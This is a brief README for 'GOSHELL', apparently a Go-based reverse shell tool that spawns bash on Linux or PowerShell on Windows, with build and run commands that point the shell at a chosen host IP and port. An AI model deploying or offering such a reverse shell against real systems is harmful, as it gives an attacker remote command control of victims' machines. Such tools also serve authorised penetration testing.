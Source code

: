 # GOSHELL

Simple golang based reverse shell. This calls `/bin/bash` on linux and `powershell.exe` on windows

## Build

```bash
make
```

## Run

```bash
./goshell-xxx-xx -host IP -port PORT
```
